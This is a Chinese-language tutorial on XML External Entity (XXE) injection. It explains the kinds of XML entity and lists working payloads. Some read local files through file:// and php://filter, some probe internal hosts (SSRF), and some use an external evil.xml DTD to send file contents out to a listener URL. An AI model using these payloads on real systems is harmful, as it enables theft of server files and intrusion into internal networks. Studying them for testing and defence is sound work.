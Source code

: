 ## **0x01:知识准备**

```
XXE即XML External Entity Injection，由于程序在解析输入的XML数据时，解析了攻击者伪造的外部实体而产生的。例如PHP中的simplexml_load默认情况下会解析外部实体，有XXE漏洞的标志性函数为simplexml_load_string（）

主要理利用：任意文件读取、内网信息探测（包括端口和相关web指纹识别）、DOS攻击、远程命名执行
```

XML实体分为四种：字符实体，命名实体，外部实体，参数实体

**1、命名实体写法：**

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///c://test/1.txt" >]>        
<value>&xxe;</value>

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://otherhost/xxxx.php" >]>        
<value>&xxe;</value>
```

可以用做xxe+ssrf，用于内网扫描  
**2、命名实体+外部实体写法：**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE root [
<!ENTITY dtd SYSTEM "http://localhost:88/evil.xml">
]> 
<value>&dtd;</value>
```

这种命名实体调用外部实体，发现evil.xml中不能定义实体，否则解析不了，感觉命名实体好鸡肋，参数实体就好用很多  
**3、第一种命名实体+外部实体+参数实体写法：**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///c://test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost:88/evil.xml"> 
%dtd; %all; 
]> 
<value>&send;</value>
```

其中evil.xml文件内容为

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:88%file;'>">
```

调用过程为：参数实体dtd调用外部实体evil.xml，然后又调用参数实体all，接着调用命名实体send

**第二种命名实体+外部实体+参数实体写法：**

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost:88/evil.xml">
%dtd;
%send;
]>
<root></root>
```

其中evil.xml文件内容为：

```
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://localhost:88/?content=%file;'>"> %payload;
```

调用过程和第一种方法类似





